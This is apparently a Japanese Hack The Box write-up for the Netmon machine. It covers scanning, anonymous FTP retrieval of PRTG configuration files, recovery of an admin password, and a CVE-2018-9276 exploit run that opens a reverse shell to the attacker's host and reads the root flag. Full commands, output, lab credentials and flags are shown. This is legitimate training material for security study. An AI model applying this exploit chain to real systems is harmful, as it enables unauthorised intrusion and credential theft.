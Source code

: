 https://app.hackthebox.com/machines/Netmon

## STEP 1
ftpのanonymousログインが可能
```sh
└─$ rustscan -a 10.129.230.176 --no-banner --scripts none
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.129.230.176:21
Open 10.129.230.176:80
Open 10.129.230.176:135
Open 10.129.230.176:139
Open 10.129.230.176:445
Open 10.129.230.176:5985
Open 10.129.230.176:47001
Open 10.129.230.176:49664
Open 10.129.230.176:49665
Open 10.129.230.176:49666
Open 10.129.230.176:49667
Open 10.129.230.176:49668
Open 10.129.230.176:49669
10.129.230.176 -> [21,80,135,139,445,5985,47001,49664,49665,49666,49667,49668,49669]
```
```sh
└─$ nmap -n -Pn -p21 -sV --script=ftp-anon 10.129.230.176
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-16 07:10 EDT
Nmap scan report for 10.129.230.176
Host is up (0.50s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_11-10-23  10:20AM       <DIR>          Windows
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3.58 seconds
```


## STEP 2
ftpでファイル探索  
ユーザフラグゲット！  
ルートフラグは権限不足で確認できず
```sh
└─$ tnftp -a 10.129.17.67
Connected to 10.129.17.67.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
230 User logged in.
Remote system type is Windows_NT.

ftp> more Users\\Public\\Desktop\\user.txt
c5a3c0462ce87b64857fbbff23d35c55

ftp> cd Users\\Administrator
550 Access is denied.
```


## STEP 3
80番にアクセス  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Netmon_01.png">  
PRTG Network Monitor には CVE-2018-9276 が存在し、Webコンソール画面からOSコマンドインジェクションできるらしい  
この脆弱性を悪用するためにクレデンシャルが必要なのでftp上で探す  
[公式サイト](https://www.paessler.com/manuals/prtg/login#:~:text=When%20you%20log%20in%20for,should%20change%20the%20default%20password.)で確認できるデフォルトクレデンシャルではログインできず  
[このサイト](https://kb.paessler.com/en/topic/62202-where-are-stored-passwords-saved)から、パスワードはどうやら「configuration.dat」に保存されている（暗号化されているっぽい）と判明  
[このサイト](https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data)から、パスは「%programdata%\Paessler\PRTG Network Monitor\configuration.dat」にあると判明 
```sh
└─$ tnftp -a 10.129.17.67
Connected to 10.129.17.67.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
230 User logged in.
Remote system type is Windows_NT.

ftp> binary 
200 Type set to I.

ftp> get "programdata\\paessler\\PRTG Network Monitor\\PRTG Configuration.dat"
local: programdata\\paessler\\PRTG Network Monitor\\PRTG Configuration.dat remote: programdata\\paessler\\PRTG Network Monitor\\PRTG Configuration.dat
229 Entering Extended Passive Mode (|||50920|)
125 Data connection already open; Transfer starting.
100% |***********************************************************************************************************************************************************************************************|  1161 KiB  227.12 KiB/s    00:00 ETA
226 Transfer complete.
1189697 bytes received in 00:05 (216.26 KiB/s)
```
パスワードぽいもの発見、やっぱり暗号化されている
```xml
<login>
   prtgadmin
 </login>
 <name>
   PRTG System Administrator
 </name>
 <ownerid>
   100
 </ownerid>
 <password>
   <flags>
     <encrypted/>
   </flags>
   <cell col="0" crypt="PRTG">
     JO3Y7LLK7IBKCMDN3DABSVAQO5MR5IDWF3MJLDOWSA======
   </cell>
   <cell col="1" crypt="PRTG">
     OEASMEIE74Q5VXSPFJA2EEGBMEUEXFWW
   </cell>
 </password>
```
同フォルダ内にバックアップファイルものがあったのでダウンロード
```sh
ftp> get "programdata\\paessler\\PRTG Network Monitor\\PRTG Configuration.old.bak"
local: PRTG Configuration.old.bak remote: PRTG Configuration.old.bak
229 Entering Extended Passive Mode (|||59224|)
125 Data connection already open; Transfer starting.
100% |***********************************************************************************************************************************************************************************************|  1126 KiB   20.86 KiB/s    00:00 ETA
226 Transfer complete.
1153755 bytes received in 00:54 (20.76 KiB/s)
```
あらあら平文のクレデンシャル発見
```xml
<dbpassword>
 <!-- User: prtgadmin -->
 PrTg@dmin2018
</dbpassword>
```
このクレデンシャルでWebログインしたが失敗  
ここでこのクレデンシャルは2018年に作成されたコンフィグのバックアップファイル  
現在のコンフィグは2019年に作成なので、「PrTg@dmin2018」でなく「PrTg@dmin2019」と推測ができたりできなかったり  
実際に「PrTg@dmin2019」でログインすると成功した！（このパスワード推測CTFっぽいね）
```sh
└─$ ls -l 'PRTG Configuration.dat' 'PRTG Configuration.old.bak' 
-rw-rw-r-- 1 kali kali 1189697 Feb 25  2019 'PRTG Configuration.dat'
-rw-rw-r-- 1 kali kali 1153755 Jul 14  2018 'PRTG Configuration.old.bak'
```


## STEP 4
PoCでエクスプロイト  
PoCの仕組みは、`msfvenom`でリバースシェルのDLLを作成し、`impacket-smbserver`でDLLをアップロード  
CVE-2018-9276のOSコマンドインジェクションでDLLをrundllで実行させ、リバースシェル取得するかんじ  
ルートフラグゲット！
```sh
└─$ wget https://raw.githubusercontent.com/A1vinSmith/CVE-2018-9276/refs/heads/main/exploit.py
2025-04-18 02:21:33 URL:https://raw.githubusercontent.com/A1vinSmith/CVE-2018-9276/refs/heads/main/exploit.py [16049/16049] -> "exploit.py" [1]

└─$ python3.13 exploit.py                                                                                                          
/home/kali/htb/exploit.py:259: SyntaxWarning: invalid escape sequence '\{'
  print(event + "Hosting payload at [\\\\{}\{}]".format(lhost, shareName))
usage: exploit.py [-h] -i HOST -p PORT --lhost LHOST --lport LPORT [--user USER] [--password PASSWORD] [--https]
exploit.py: error: the following arguments are required: -i/--host, -p/--port, --lhost, --lport

└─$ python3.13 exploit.py -i 10.129.17.67 -p 80 --lhost 10.10.16.5 --lport 4444 --user "prtgadmin" --password "PrTg@dmin2019"
/home/kali/htb/exploit.py:259: SyntaxWarning: invalid escape sequence '\{'
  print(event + "Hosting payload at [\\\\{}\{}]".format(lhost, shareName))
[+] [PRTG/18.1.37.13946] is Vulnerable!

[*] Exploiting [10.129.17.67:80] as [prtgadmin/PrTg@dmin2019]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] File staged at [C:\Users\Public\tester.txt] successfully with objid of [2018]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Notification with objid [2018] staged for execution
[*] Generate msfvenom payload with [LHOST=10.10.16.5 LPORT=4444 OUTPUT=/tmp/bkdpccjp.dll]
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 9216 bytes
/home/kali/htb/exploit.py:294: DeprecationWarning: setName() is deprecated, set the name attribute instead
  impacket.setName('Impacket')
/home/kali/htb/exploit.py:295: DeprecationWarning: setDaemon() is deprecated, set the daemon attribute instead
  impacket.setDaemon(True)
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Hosting payload at [\\10.10.16.5\IUGMYMBK]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Command staged at [C:\Users\Public\tester.txt] successfully with objid of [2019]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Notification with objid [2019] staged for execution
[*] Attempting to kill the impacket thread
[-] Impacket will maintain its own thread for active connections, so you may find it's still listening on <LHOST>:445!
[-] ps aux | grep <script name> and kill -9 <pid> if it is still running :)
[-] The connection will eventually time out.

[+] Listening on [10.10.16.5:4444 for the reverse shell!]
listening on [any] 4444 ...
[*] Incoming connection (10.129.17.67,59854)
[*] AUTHENTICATE_MESSAGE (\,NETMON)
[*] User NETMON\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Disconnecting Share(1:IPC$)
connect to [10.10.16.5] from (UNKNOWN) [10.129.17.67] 59867
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>type 'c:\Users\Administrator\Desktop\root.txt'
cat 'c:\Users\Administrator\Desktop\root.txt'
74857cea503cf62366e036300f64b6c8

C:\Windows\system32>exit
[*] Disconnecting Share(2:IUGMYMBK)
exit
[*] Closing down connection (10.129.17.67,59854)
[*] Remaining connections []
```
